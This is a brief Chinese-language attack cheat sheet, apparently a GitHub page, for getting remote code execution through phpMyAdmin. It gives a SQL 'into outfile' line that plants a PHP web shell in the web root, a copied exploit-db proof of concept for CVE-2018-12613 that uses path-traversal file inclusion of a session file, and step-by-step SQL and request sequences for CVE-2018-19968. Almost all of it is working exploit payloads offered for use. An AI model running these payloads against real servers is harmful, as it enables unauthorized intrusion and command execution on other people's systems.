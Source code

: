 # 高权限直接写shell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/getshell.php";
```
需要满足的条件
- 网站的绝对路径。
- 拥有可写权限
- 是union注入(如果是注入的话)


# CVE-2018-12613 本地文件包含 Version: 4.8.0, 4.8.1
https://www.exploit-db.com/exploits/40185
```
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution
# Date: 2018-06-21
# Exploit Author: VulnSpy
# Vendor Homepage: http://www.phpmyadmin.net
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz
# Version: 4.8.0, 4.8.1
# Tested on: php7 mysql5
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```


# CVE-2018-19968 远程代码执行文件包含  Version: 4.8.0 ~ 4.8.3
```
#执行SQL
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
#访问
/chk_rel.php?fixall_pmadb=1&db=foo
#执行SQL，注意这里***换成phpmyadmin的cookie
INSERT INTO `pma__column_info`SELECT '1', 'foo', 'bar', 'baz', 'plop',
'plop', 'plop', 'plop',
'../../../../../../../../tmp/sess_***','plop';
#访问
/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
```


其他一些低版本的https://www.cnblogs.com/xishaonian/p/7627125.html

